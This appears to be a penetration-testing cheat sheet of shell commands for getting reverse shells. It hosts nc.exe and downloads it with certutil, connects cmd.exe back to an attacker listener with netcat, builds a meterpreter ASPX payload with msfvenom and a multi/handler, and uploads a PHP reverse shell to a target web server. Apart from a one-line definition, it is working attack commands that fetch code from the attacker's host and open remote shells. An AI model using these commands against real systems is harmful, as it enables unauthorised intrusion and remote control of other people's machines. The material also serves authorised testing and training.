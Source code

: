 A **reverse shell** is a remote shell where the target connects back to the attacker's listener; it's effective since no tools are needed on the target, but embedding the attacker's IP in the payload can expose them during forensic analysis.

```shell
# Start a simple HTTP server on Kali to host nc.exe
cd /usr/share/windows-binaries
python -m SimpleHTTPServer 80

# Download nc.exe on the Windows Target
certutil -urlcache -f http://<my_kali_IP>/nc.exe nc.exe

# Set Up Netcat Listener on Kali (Attacker) - Starts a Netcat listener on port 1234 to receive the reverse shell
nc -nvlp 1234

# Connect Back to Kali from Windows (Reverse Shell)
nc.exe -nv <my_kali_IP> 1234 -e cmd.exe
# Connects back to the Kali listener and spawns a Windows cmd shell

# On the Kali system we can:
whoami
```

**ASPX shell**

```shell
# Let’s create the ASPX shell using msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<local_IP> LPORT=1234 -f aspx > shell.aspx

# Upload the shell on the target.

# Use the msfconsole module /multi/handler to handle the incoming connection. 
# Set these three parameters: PAYLOAD , LHOST , and LPORT
use multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <local_IP>
set LPORT <port_number>

# Navigate to http://<target>/shell.aspx
# You should observe that we have successfully obtained the shell.
```

**PHP reverse shell**

```shell
cp /usr/share/webshells/php/php-reverse-shell.php .
# Update the IP address with my IP
# Update port number.

# e.g. Upload the file to SMB (target) using the put command.

# Start a Netcat listener
nc -lvnp 1234
 
 # Open the browser
 http://<target>/php-reverse-shell.php
```

